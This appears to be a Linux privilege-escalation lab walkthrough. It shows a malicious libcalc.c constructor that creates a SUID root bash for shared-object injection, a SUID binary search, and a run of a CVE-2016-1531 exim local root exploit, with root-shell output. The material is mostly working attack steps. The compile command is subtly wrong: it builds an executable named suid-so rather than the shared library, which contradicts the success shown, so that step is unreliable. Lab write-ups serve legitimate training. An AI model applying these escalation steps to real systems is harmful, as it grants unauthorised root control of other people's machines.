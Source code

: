 ```
TCM@debian:~$ `ls /home/user/.config`
ls: cannot access /home/user/.config: No such file or directory
TCM@debian:~$ 
```
We can take advantage of this thing, we can create this directory and write our own code for `libcalc.so`
```
TCM@debian:~$ `touch  /home/user/.config/libcalc.c`
TCM@debian:~$ `nano  /home/user/.config/libcalc.c`

  #include <stdio.h>
  #include <stdlib.h>

  static void inject() __attribute__((constructor));

  void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
  }
```
This code copies the bash binary(owned by root) into /tmp, Then it assigns the SUID permission to the binary in the /tmp directory and then execute it from the /tmp directory.

Lets compile and use it using original file we discovered, To execute the code in libcalc.so, let’s execute the suid-so binary.
```
TCM@debian:~$ gcc /home/user/.config/libcalc.c -o /home/user/.config/suid-so

TCM@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
bash-4.1# `id`
uid=1000(TCM) gid=1000(user) euid=0(root) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1# 
```

**Example 4**
```
Known exploit example 1 - for file exim-4.84-3 - cve-2016-1531
Known exploit example 2 - for file  Enlightenment - CVE-2022-37706
```

Known exploit example 1
```
TCM@debian:/$ `find / -type f -perm -04000 -ls 2>/dev/null`
809081   40 -rwsr-xr-x   1 root     root        37552 Feb 15  2011 /usr/bin/chsh
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
810173   36 -rwsr-xr-x   1 root     root        32808 Feb 15  2011 /usr/bin/newgrp
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudoedit
809080   44 -rwsr-xr-x   1 root     root        43280 Jun 18  2020 /usr/bin/passwd
809078   64 -rwsr-xr-x   1 root     root        60208 Feb 15  2011 /usr/bin/gpasswd
809077   40 -rwsr-xr-x   1 root     root        39856 Feb 15  2011 /usr/bin/chfn
816078   12 -rwsr-sr-x   1 root     staff        9861 May 14  2017 /usr/local/bin/suid-so
816762    8 -rwsr-sr-x   1 root     staff        6883 May 14  2017 /usr/local/bin/suid-env
816764    8 -rwsr-sr-x   1 root     staff        6899 May 14  2017 /usr/local/bin/suid-env2
815723  948 -rwsr-xr-x   1 root     root       963691 May 13  2017 /usr/sbin/exim-4.84-3
```
If we search for this version of exim its vulnerable, we can find known exploit available,  Downlod , Transfer it to target and Run the exploit script to gain a root shell
```
user@debian:~$ `/home/user/tools/suid/exim/cve-2016-1531.sh`
CVE-2016-1531 local root exploit
sh-4.1# `id`
uid=0(root) gid=1000(user) groups=0(root)
sh-4.1# 
```
